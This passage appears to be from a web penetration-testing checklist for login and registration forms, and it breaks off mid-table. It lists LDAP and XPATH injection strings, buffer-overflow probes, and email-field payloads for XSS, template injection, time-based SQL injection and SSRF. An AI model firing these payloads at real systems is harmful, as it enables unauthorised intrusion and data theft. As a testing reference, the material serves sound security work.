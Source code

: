 	- `\*)(|(password\=\*` and password: `test)`
	- `\*))%00` and password: `any`
	- `admin)(&)` and password `pwd`
	- `admin)(!(&(|` and password `any))`
	- `*` and password: `\*)(&`
	- `admin))(|(|` and password: `any`
	- Resources:
		- [Hacktricks: LDAP Injection](https://book.hacktricks.xyz/pentesting-web/ldap-injection)
	- [ ] XPATH injection: for XML documents with auth
	- `' or '1'='1`
	- `' or ''='`
	- `' or 1\]%00`
	- `' or /\* or '`
	- `' or "a" or '`
	- `' or 1 or '`
	- `' or true() or '`
	- `admin' or '`
	- `admin' or '1'='2`
	- Resources:
		- [Hacktricks: XPATH injection](https://book.hacktricks.xyz/pentesting-web/xpath-injection)
- [ ] Buffer overflow
	- 200+ chars username
	- 200+ chars password
	- 200+ chars both at same time

### Registration
- [ ] register with existing username/email
- [ ] email registration checks
<table>
  <thead>
    <tr>
      <th style="text-align:left">Attack</th>
      <th style="text-align:left">Payload</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">XSS</td>
      <td style="text-align:left">
        <p>test+(alert(0))@example.com</p>
        <p>test@example(alert(0)).com</p>
        <p>&quot;alert(0)&quot;@example.com</p>
        <p>&lt;script src=//xsshere?&#x201D;@email.com</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">Template injection</td>
      <td style="text-align:left">
        <p>&quot;&lt;%= 7 \* 7 %&gt;&quot;@example.com</p>
        <p>test+(${{7\*7}})@example.com</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">SQLi</td>
      <td style="text-align:left">
        <p>&quot;&apos; OR 1=1 -- &apos;&quot;@example.com</p>
        <p>&quot;mail&apos;); SELECT version();--&quot;@example.com</p>
        <p>a&apos;-IF(LENGTH(database())=9,SLEEP(7),0)or&apos;1&apos;=&apos;1\\&quot;@a.com</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">SSRF</td>
      <td style="text-align:left">